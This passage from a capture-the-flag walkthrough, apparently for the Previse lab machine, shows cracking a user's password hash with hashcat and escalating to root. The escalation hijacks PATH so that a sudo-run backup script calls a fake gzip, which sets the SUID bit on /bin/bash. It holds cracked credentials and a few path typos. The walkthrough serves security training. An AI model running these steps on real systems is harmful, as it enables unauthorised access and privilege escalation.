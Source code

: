 Cracking the password for the user `m4lwhere` can be accomplished with `hashcat` using the `rockyou.txt` wordlist.
```
$ echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > hash.txt
$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt --force
```

Hashcat cracks the hash, with the password `ilovecody112235!`. Back in the reverse shell, log in with the credentials `m4lwhere:ilovecody112235!` and capture **user.txt**.
```
www-data@previse:/var/www/html$ su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:/var/www/html$ cd  
m4lwhere@previse:~$ ls -l
total 4
-r-------- 1 m4lwhere m4lwhere 33 Sep 23 04:31 user.txt
m4lwhere@previse:~$
```

## Privilege Escalation and root.txt
Running `sudo -l` lists the commands the user is allowed to run as root.
```
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: ilovecody112235!

User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$
```

Examine the contents of `/opt/scripts/access_backup.sh`
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script calls `gzip` using the relative path, rather than the absolute path of `/bin/gzip`. Create the script `/home/m4lwhere/scripts/gzip` to set the suid execute bit on /bin/bash to allow user m4lwhere to run `/bin/bash` as root:
```
#!/bin/bash
chmod +sx /bin/bash
```

Add the directory `/home/m4lwhere/scripts` to path to abuse the relative path call in `/opt/scripts/access_backup.sh`.
```
chmod +x /home/m4lwhere/script/gzip
export PATH=/home/m4lwhere/scripts:$PATH
```
